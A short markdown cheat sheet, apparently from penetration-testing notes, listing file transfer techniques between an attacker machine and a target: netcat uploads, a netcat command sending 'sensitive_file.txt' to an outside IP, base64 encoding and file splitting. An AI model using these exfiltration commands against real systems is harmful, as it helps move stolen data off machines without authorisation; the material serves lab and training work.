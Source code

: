 # File Transfer Techniques

## Upload file to target using netcat

```bash
nc -w 3 $IP 4444 < file.exe
```

## Receive file on target using netcat

```bash
nc -nlvp 4444 > file.exe
```

## Download file from target using netcat

```bash
nc -nlvp 4444 > sensitive_file.txt
```

## Send file from target using netcat

```bash
nc -w 3 10.10.14.5 4444 < sensitive_file.txt
```

## Verify transferred file integrity with md5sum

```bash
md5sum file.exe
ls -la file.exe
```

## Encode small file to base64 for transfer

```bash
base64 -w 0 file.exe
```

## Decode base64 content to file

```bash
echo "BASE64_CONTENT_HERE" | base64 -d > file.exe
```

## Split and encode large file into chunks

```bash
split -b 50000 file.exe chunk_
for chunk in chunk_*; do base64 -w 0 $chunk > $chunk.b64; done
```
